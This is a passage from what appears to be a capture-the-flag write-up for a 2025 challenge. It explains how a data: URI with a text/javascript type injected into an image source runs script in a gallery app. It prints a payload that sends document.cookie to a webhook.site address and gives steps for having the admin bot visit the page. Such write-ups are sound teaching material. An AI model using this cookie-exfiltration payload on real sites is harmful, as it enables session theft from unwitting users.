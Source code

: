 It successfully bypass the error handling and trigger the alert. The reason is that URI schema does not download image from the network and using `data:` can direct inject into `src` attribute. And `text/javascript` let MIME type, browser will execute content as javascript. <br>

So maybe the CVE may work but I can not exploit with it so I will go with the other way. <br>
- First run the script to host the malicious server.
- First enter `data:text/javascript,fetch('https://webhook.site/YOUR-WEBHOOK-ID/?flag=' + document.cookie)` to url field.
- And then report the url gallery `http://52.188.82.43:8070/gallery?username=test_portrait` to admin.
- Check the webhook response and get the flag.

![portrait](/assets/img/squ1rrel-ctf_2025/create_portrait.png)
![portrait](/assets/img/squ1rrel-ctf_2025/report_portrait2.png)